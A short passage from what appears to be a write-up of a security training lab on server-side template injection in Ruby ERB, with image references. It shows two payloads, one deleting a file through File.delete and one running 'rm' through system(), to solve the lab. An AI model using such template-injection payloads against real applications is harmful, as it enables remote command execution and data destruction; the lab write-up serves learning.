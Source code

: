 It mean we can inject here

Step3:

Using this exploit to delete morale.txt

`<% File.delete('/home/carlos/morale.txt') %>`

<img src="images/image4.jpg" alt="third" width="500">

And the lab get solve

Alternative payload

`<%= system("rm /home/carlos/morale.txt") %>`

<img src="images/image5.jpg" alt="third" width="500">
